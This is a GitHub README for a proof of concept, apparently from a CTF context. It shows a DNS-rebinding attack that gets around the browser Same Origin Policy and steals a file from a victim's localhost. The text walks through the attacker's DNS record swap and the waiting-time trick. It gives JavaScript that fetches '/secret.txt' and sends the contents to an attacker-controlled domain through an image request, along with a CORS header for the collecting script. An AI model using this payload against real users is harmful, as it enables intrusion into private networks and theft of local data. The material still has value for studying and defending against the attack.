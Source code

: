 # Bypass Same Origin Policy - BY-SOP

Bypass Same Origin Policy with DNS-rebinding to retrieve local server file.

**Goal** : retrieve a file on a private server http://127.0.0.1/secret.txt 
This normaly should by impossible due to [Same Origin Policy](https://en.wikipedia.org/wiki/Same-origin_policy) but we will use [DNS-rebinding](https://en.wikipedia.org/wiki/DNS_rebinding) attack to bypass the SOP and retrieve the file.

> This attack can be used to breach a private network by causing the victim's web browser to access machines at private IP addresses and returning the results to the attacker.

![BY-SOP](BY-SOP.jpg)

### Victim:

- visit the malicious page for at least ~2-3 minutes (playing flash game, fill a form etc)

### Attacker:
    
* attacker setup a domain with the lowest TTL (60 second, 120 for CloudFlare )
* one the victim visit the malicious page, he changes the dns IP of the domain with the local ip targeted

    - before `foo.domain.com. 59  IN  A   5.135.66.45`
    - after  `foo.domain.com. 59  IN  A   127.0.0.1`

    Since the `TTL` is very short, the attacker will make another request to retrieve the private file **AFTER** the `TTL` time is up (> 59), the request has to do an additional DNS request

    ```javascript
    setTimeout(function SOP_bypass() {
        $.get('/secret.txt', function(data) {
            // action with data
        });
    }, 180000); //3min to be sure
    ```

    However, by changing the DNS record in the meantime, the domain will resolve to the victim page with the local IP.
        There is no more Same Origin Policy and we can retrieve the content of the file.

* the content is send to another domain to save the data
    ```javascript
    setTimeout(function SOP_bypass() {
        $.get('/secret.txt', function(data) {
            // action with data
            var image = new Image();
            image.src='http://domain.com/save.php?'+data;
        });
    }, 180000); //3min to be sure
    ```

    The file `save.php` need to allow Cross-origin resource sharing (CORS) to accept the request. In PHP it can be done by adding this line `header("Access-Control-Allow-Origin: *.domain.com");`


* finally  
    ```bash
        cat save.txt
        {"WIN{AweSome_ByPass_SOP}":""}
    ```

## Contributor

[mpgn](https://github.com/mpgn) 

## Licences

[licence MIT](https://github.com/mpgn/BY-SOP/blob/master/LICENSE)

## References

* http://www.ptsecurity.com/download/DNS-rebinding.pdf
* https://www.abortz.net/papers/dns-rebinding.pdf
* https://en.wikipedia.org/wiki/DNS_rebinding
* http://www.circleid.com/posts/070809_defending_networks_dns_rebinding_attacks/
* https://dollberg.xyz/ctf/2016/03/13/0CTF-Monkey-Writeup/
* http://secgroup.github.io/2016/03/14/0ctf-writeup-monkey/
* https://w00tsec.blogspot.fr/2016/03/0ctf-2016-write-up-monkey-web-4.html

